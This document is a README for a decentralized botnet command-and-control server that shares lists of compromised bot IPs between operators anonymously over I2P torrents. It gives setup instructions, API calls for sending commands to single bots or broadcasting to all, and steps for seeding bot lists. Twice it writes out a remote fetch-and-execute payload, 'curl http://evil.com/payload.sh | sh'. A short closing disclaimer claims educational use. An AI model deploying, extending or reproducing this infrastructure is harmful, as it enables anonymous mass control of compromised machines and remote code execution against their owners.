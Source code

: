 

# 📘 C2 Server over I2P with Bot Sharing via Magnet Torrents

---

## 🔧 Overview

This Command-and-Control (C2) server allows operators to:

* Control bots over the public internet.
* Seamlessly share bots with **other C2 servers** through **I2P** torrents (via magnet links).
* Use `i2psnark` to fetch and seed peer `.txt` files containing IPs of bots.
* Store all bot information in `bots.txt` automatically (from all peers).
* Send commands to a specific bot or **broadcast** to all online bots.



This system requires **no registration**, has **no central authority**, and functions as a **decentralized, anonymous C2 federation** over the I2P network.

---

## 🛠️ Prerequisites

### ✅ Operating System

* Debian-based Linux (Ubuntu, Kali, Debian)
* Works on VPS, dedicated, or I2P-enabled hidden nodes

### ✅ Dependencies

* Python 3.8+
* `flask` and `requests` Python libraries
* I2P with **i2psnark** enabled

### ✅ Python Packages

Install dependencies:

```bash
sudo apt update
sudo apt install python3-pip curl -y
pip3 install flask requests
```

---

## 🌐 I2P Setup

1. **Install I2P** (Debian/Ubuntu):

   ```bash
   sudo apt install i2p
   ```

2. **Run I2P Router:**

   ```bash
   i2prouter start
   ```

3. Access I2P router console in your browser:

   ```
   http://127.0.0.1:7657
   ```

4. Go to **i2psnark**:

   ```
   http://127.0.0.1:7657/i2psnark/
   ```

---

## 📁 Project Structure

```
c2/
├── c2_server.py           # Main C2 server
├── magnet_links.txt       # Magnet links to join other C2's shared bots
├── shared_bots/           # Shared files (peer .txt files with bot IPs)
├── bots.txt               # Master list of known bots (local + shared)
└── commands.json          # Commands assigned to each bot
```

---

## 🔌 Setup & Running the Server

1. **Clone or place the files** in your server's working directory.

2. **Add magnet links** from other C2s in `magnet_links.txt`:

   ```
   magnet:?xt=urn:btih:EXAMPLEMAGNET1
   magnet:?xt=urn:btih:EXAMPLEMAGNET2
   ```

3. **Run the server:**

   ```bash
   python3 c2_server.py
   ```

---

## 📡 Features & Functionality

### 📥 `magnet_links.txt`

* This file contains a list of **I2P magnet links** to shared `.torrent` files from other C2s.
* Each torrent contains a `.txt` file with bot IPs.
* On launch, the server adds these to `i2psnark` via its local HTTP API.

---

### 📂 `shared_bots/` folder

* This is where i2psnark downloads `.txt` files from the shared torrents.
* Each file contains IP addresses of bots collected by other C2 servers.
* These are merged into `bots.txt` automatically every 60 seconds.

---

### 📜 `bots.txt`

* A master bot list (deduplicated) combining:

  * Your manually added bots
  * Peer-shared bots from `shared_bots/`

---

### 📦 `commands.json`

* Stores commands for each bot in this format:

  ```json
  {
    "bot1_public_ip": "curl http://evil.com/payload.sh | sh",
    "bot2_public_ip": "echo 'hi'"
  }
  ```

---

## 🧪 Usage Examples

### ➕ Add a command for a specific bot

```bash
curl -X POST http://localhost:8080/sendcmd \
     -H "Content-Type: application/json" \
     -d '{"botid": "154.65.100.201", "cmd": "whoami"}'

curl http://localhost:8080/heartbeat
curl -X POST http://localhost:8080/runall -H "Content-Type: application/json" -d '{"cmd": "ps:Get-Date"}'
curl -X POST http://localhost:8080/sendcmd -H "Content-Type: application/json" -d '{"botid": "MYBOT", "cmd": "dir"}'



```

---

### 📢 Broadcast a command to all bots

```bash
curl -X POST http://localhost:8080/broadcast \
     -H "Content-Type: application/json" \
     -d '{"cmd": "curl http://evil.com/payload.sh | sh"}'
```

---
### 🤖 How bots fetch commands

Each bot should make requests like:

```
GET http://C2_IP:8080/getcmd/123.45.67.89
```

The server will respond with the latest command or an empty string.

---

## 📡 How I2P Sharing Works

1. Your C2 server:

   * Loads magnet links to shared `.torrent` files.
   * Downloads `.txt` files (with IPs of bots) via i2psnark.

2. Other C2s do the same:

   * They join your torrents and see your shared `shared_bots/local.txt`.

3. This builds a **mesh of shared botnets** using `.txt` files as simple syncing mediums.

---

## 🧷 How to Seed Your Own Bot List

1. Inside `shared_bots/`, create a file like `local.txt`:

   ```
   123.45.67.89
   11.22.33.44
   ```

2. Create a `.torrent` for `shared_bots/` folder using `i2psnark`.

3. Copy the generated **magnet link** from i2psnark, and give it to other C2 operators.

They can then add it to their own `magnet_links.txt` and receive your bot list.

---

## 🔐 Security & Anonymity

* Uses **I2P** to avoid public IP leakage between C2 servers.
* No central coordination — purely peer-to-peer.
* No usernames, passwords, or registration — just magnet links.
* Commands are only executed on bots reachable on the **clearnet**.

---

## ❗ Warnings (Ethical Use)

This system is designed **strictly for educational use, authorized testing, or simulations**. Misuse for illegal botnet control is a crime in most jurisdictions.

---
